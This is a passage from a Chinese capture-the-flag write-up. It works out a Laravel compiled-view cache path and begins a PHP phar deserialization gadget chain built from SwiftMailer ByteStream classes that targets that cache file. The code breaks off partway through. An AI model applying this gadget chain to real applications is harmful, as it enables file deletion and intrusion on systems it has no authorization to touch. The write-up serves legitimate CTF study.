 然后就是构造`phar`反序列化包

还有两个点就是，文件路径和缓存文件名是多少呢

文件路径的化可以通过admin的note中说默认配置猜测路径为`/usr/share/nginx/html/`

其次就是文件名，这个可以从源码中找到

```php
public function getCompiledPath($path)
{
    return $this->cachePath.'/'.sha1($path).'.php';
}
```

$path的值就是模板的位置，为`/usr/share/nginx/html/resources/views/auth/flag.blade.php`

这样，缓存文件的文件具体路径就是`/usr/share/nginx/html/storage/framework/views/34e41df0934a75437873264cd28e2d835bc38772.php`

就可以构造phar包

```php
<?php
abstract class Swift_ByteStream_AbstractFilterableInputStream 
{
    protected $_sequence = 0;
    private $_filters = array();
    private $_writeBuffer = '';
    private $_mirrors = array();
}
class Swift_ByteStream_FileByteStream extends Swift_ByteStream_AbstractFilterableInputStream {
    private $_offset = 0;
    private $_path;
    private $_mode;
    private $_reader;
    private $_writer;
    private $_quotes = false;
    private $_seekable = null;

    public function __construct($path, $writable = false)
    {
        $this->_path = $path;
        $this->_mode = $writable ? 'w+b' : 'rb';

        if (function_exists('get_magic_quotes_runtime') && @get_magic_quotes_runtime() == 1) {
            $this->_quotes = true;
        }
    }

    public function getPath()
    {
        return $this->_path;
    }
}


class Swift_ByteStream_TemporaryFileByteStream extends Swift_ByteStream_FileByteStream
{
    public function __construct()
    {
        $filePath = "/usr/share/nginx/html/storage/framework/views/34e41df0934a75437873264cd28e2d835bc38772.php";

        if ($filePath === false) {
            throw new Swift_IoException('Failed to retrieve temporary file name.');
        }

```